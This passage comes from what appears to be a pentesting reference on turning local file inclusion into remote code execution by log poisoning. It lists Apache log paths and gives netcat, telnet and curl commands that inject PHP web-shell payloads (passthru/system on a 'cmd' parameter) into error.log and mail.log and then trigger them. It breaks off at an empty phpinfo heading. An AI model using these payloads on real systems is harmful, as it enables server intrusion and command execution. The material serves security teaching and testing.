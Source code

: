 {% hint style="info" %}
There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) on the `access.log` path and file depending on the operating system/distribution:

> * RHEL / Red Hat / CentOS / Fedora Linux Apache access file location – **/var/log/httpd/access_log**
> * Debian / Ubuntu Linux Apache access log file location – **/var/log/apache2/access.log**
> * FreeBSD Apache access log file location – **/var/log/httpd-access.log**
{% endhint %}

#### /var/log/apache/error.log

This one is similar to the `access.log`, but instead of putting simple requests in the log file, it will put errors in `error.log`.

* **About `error.log`**: records any errors encountered in processing requests.
* **About netcat**: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/error.log&cmd=id
```

{% hint style="info" %}
There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) on the `error.log` path and file depending on the operating system/distribution:

> * RHEL / Red Hat / CentOS / Fedora Linux Apache error file location – **/var/log/httpd/error_log**
> * Debian / Ubuntu Linux Apache error log file location – **/var/log/apache2/error.log**
> * FreeBSD Apache error log file location – **/var/log/httpd-error.log**
{% endhint %}

#### **/var/log/mail.log**

When an SMTP server is running and writing logs in `/var/log/mail.log`, it's possible to inject a payload using telnet (as an example).

```bash
# Sending the payload via telnet
telnet $TARGET_IP $TARGET_PORT
> MAIL FROM:<pentest@pentest.com>
> RCPT TO:<?php system($_GET['cmd']); ?>

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/mail.log&cmd=id
```

### 🛠️ LFI to RCE (via phpinfo)
